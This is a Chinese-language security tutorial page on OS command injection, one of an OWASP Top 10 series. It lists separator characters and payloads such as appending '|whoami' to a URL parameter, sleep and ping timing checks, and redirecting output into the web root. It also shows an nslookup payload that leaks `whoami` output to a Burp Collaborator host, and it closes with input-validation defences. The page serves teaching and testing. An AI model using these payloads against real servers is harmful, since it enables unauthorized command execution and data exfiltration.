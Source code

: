 ```yaml
---
description: OWASP-TOP10 漏洞
---
```


# 命令注入（RCE）

## 介绍

命令注入漏洞是一种通过滥用应用程序的行为，在运行应用程序的服务器上执行操作系统命令，攻击者通过会利用此漏洞来破坏基础设施的其他部分，利用信任关系将攻击转向组织内的其他系统

## 影响

根据应用程序运行的权限，造成不同的影响

## 攻击

### 1. 插入特殊字符来检测分割符

```shell
&
;
换行符 (0x0a or \n)
&&
|
||
```

```shell
# 正常的 HTTP 请求
https://vulnerable-website.com/endpoint?parameter=123

# payload
https://vulnerable-website.com/endpoint?parameter=1|whoami
```

### 2. 时间延迟

> 大多数操作系统命令注入都是<mark style="color:red;">盲注</mark>，不会为我们产生任何输出，我们可以使用时间延迟来验证命令注入

```shell
ping -c 10 127.0.0.1
sleep  # 休眠几秒 Linux
timeout  # Windows
```

### 3. 重定向输出

> 这也是一种利用<mark style="color:red;">盲注</mark>的方法，我们可以将注入命令的输出重定向到 WEB 根目录的一个文件中，然后访问它

```shell
whoami>/var/www/images/output.txt
```

### 4. 使用 OAST 进行操作系统命令注入

**payload**：使用`Burp Collaborator Client`

```shell
注入点=x||nslookup+burpcollaborator.net||
```

payload

```shell
注入点=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
```

## 5. 获取 REVRSE SHELL

> 可以借助命令执行来获取 REVERSE SHELL ，也可以进行文件上传一些特殊页面，实现获取 SHELL

## 防御

> 到目前为止，防止操作系统命令注入漏洞的最有效方法是永远不要从应用层代码中调用操作系统命令。
>
> 在很多情况下，都有使用更安全的平台API实现所需功能的替代方法。

如果使用用户提供的输入向操作系统命令发出呼叫被认为是不可避免的，则必须执行强输入验证。有效验证的一些示例包括：

* 对准允许值的白名单进行验证。
* 验证输入是一个数字。
* 验证输入仅包含字母数字字符，没有其他语法或空白。

## 配合

### 1. 文件上传&命令注入

利用文件上传一些 WEBSHELL

&#x20;

## 参考文章

* [操作系统命令注入](https://portswigger.net/web-security/os-command-injection)
* [狼组安全团队公开知识库](https://wiki.wgpsec.org/knowledge/web/cmd\_injection.html)

## 提升

* [命令注入漏洞介绍-上](https://www.freebuf.com/articles/web/276503.html)
* [命令注入漏洞介绍-下](https://www.freebuf.com/articles/web/276505.html)
